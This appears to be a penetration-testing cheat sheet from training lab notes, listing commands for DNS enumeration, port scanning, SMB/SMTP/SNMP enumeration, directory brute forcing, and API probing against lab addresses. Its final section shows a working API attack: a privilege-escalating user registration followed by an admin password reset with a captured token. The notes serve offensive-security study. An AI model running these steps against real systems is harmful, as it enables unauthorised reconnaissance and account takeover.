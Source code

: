 
# Information Gathering Active

## DNS Enumeration

### host

```bash
for ip in $(cat list.txt); do host $ip.megacorpone.com; done

for ip in $(seq 200 254); do host 51.222.169.$ip; done | grep -v "not found"
```

### dnsenum

```bash
dnsenum megacorpone.com
```

### nslookup

```bash
nslookup -type=TXT info.megacorptwo.com 192.168.50.151
```

## Port Scanning

### nc

```bash
nc -nv -z -w 1 192.168.224.151 1-10000

nc -nv -z -w 1 -u 192.168.224.151 100-200
```

### nmap

#### host discovery

```bash
nmap -sn 192.168.50.1-254 -oG ping-sweep.txt
nmap -sn 172.16.33.0/24
grep Up ping-sweep.txt | cut -d " " -f 2

sudo nmap -p 80 --script http-title.nse  192.168.224.0/24 -oN http-title-N.txt
```

#### port scanning

```bash
sudo nmap -sS 192.168.50.149
sudo nmap -sT -sU 192.168.50.149

sudo nmap -p- 192.168.208.211
for a in $(seq 1 500 65535); do let b=$((a+499)); sleep 2; echo ---$a-$b---; sudo nmap -p $a-$b 192.168.208.211 | grep open; done
```

#### service detection

The -A option includes version detection and script scanning, making -sC and -sV unnecessary.

```bash
sudo nmap -p- -A 172.16.33.35 -oN nmap.txt
```

##### SMB

```bash
sudo nmap -p 445 192.168.239.0/24 -oG smb.txt

sudo smbclient -L 192.168.174.10 -N

cat smb.txt | grep open | cut -d " " -f 2 | while read ip; do enum4linux "$ip"; done
```

##### SMTP

```bash
sudo nmap -p 25 192.168.239.0/24 -oG smtp.txt

nc -nv 192.168.239.8 25
vrfy root
```

##### SNMP

| OID | Description |
| --- | ----------- |
| 1.3.6.1.2.1.25.1.6.0   | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units |
| 1.3.6.1.2.1.25.6.3.1.2 | Software Name |
| 1.3.6.1.4.1.77.1.2.25  | User Accounts |
| 1.3.6.1.2.1.6.13.1.3   | TCP Local Ports |

```bash
sudo nmap -sU --open -p 161 192.168.239.0/24 -oG snmap.txt

echo public > community
echo private >> community
echo manager >> community
cat snmap.txt | grep snmp | cut -d " " -f 2 > snmap_ips
onesixtyone -c community -i snmap_ips

snmpwalk -v 2c -c public 192.168.239.151 1.3.6.1.2.1.25.4.2.1.2\n
snmpwalk -v 2c -c public -Oa 192.168.239.151 1.3.6.1.2.1.2.2.1.2\n
```

### Test-NetConnection

```powershell
Test-NetConnection -Port 445 192.168.50.151
```

### powershell

```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null
```

## Directory Brute Force

### dirsearch

```bash
dirsearch -u http:// -e php,html,txt -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

### gobuster

```bash
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

## API Enumeration

robots.txt and sitemap.xml

### gobuster

```bash
cat pattern
{GOBUSTER}/v1
{GOBUSTER}/v2

gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern

gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt


```

### drill down API

```bash
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register

curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}

curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
